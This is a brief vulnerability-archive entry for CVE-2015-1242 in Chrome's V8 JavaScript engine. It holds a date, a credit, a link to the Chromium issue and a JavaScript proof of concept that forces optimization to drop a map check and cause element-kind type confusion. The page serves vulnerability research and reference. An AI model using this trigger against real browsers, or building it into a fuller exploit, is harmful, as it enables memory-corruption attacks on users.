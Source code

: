 # CVE-2015-1242

- Date: Apr 2015
- Credit: fcole@onshape.com

## PoC

```javascript
// Flags: --allow-natives-syntax

function boom(a1, a2) {
  // Do something with a2 that needs a map check (for DOUBLE_ELEMENTS).
  var s = a2[0];
  // Emit a load that transitions a1 to FAST_ELEMENTS.
  var t = a1[0];
  // Emit a store to a2 that assumes DOUBLE_ELEMENTS.
  // The map check is considered redundant and will be eliminated.
  a2[0] = 0.3;
}

// Prepare type feedback for the "t = a1[0]" load: fast elements.
var fast_elem = new Array(1);
fast_elem[0] = "tagged";
boom(fast_elem, [1]);

// Prepare type feedback for the "a2[0] = 0.3" store: double elements.
var double_elem = new Array(1);
double_elem[0] = 0.1;
boom(double_elem, double_elem);

// Reset |double_elem| and go have a party.
double_elem = new Array(10);
double_elem[0] = 0.1;

%OptimizeFunctionOnNextCall(boom);
boom(double_elem, double_elem);

//assertEquals(0.3, double_elem[0]);
//assertEquals(undefined, double_elem[1]);
```

## Reference

- [Issue](https://bugs.chromium.org/p/chromium/issues/detail?id=460917)

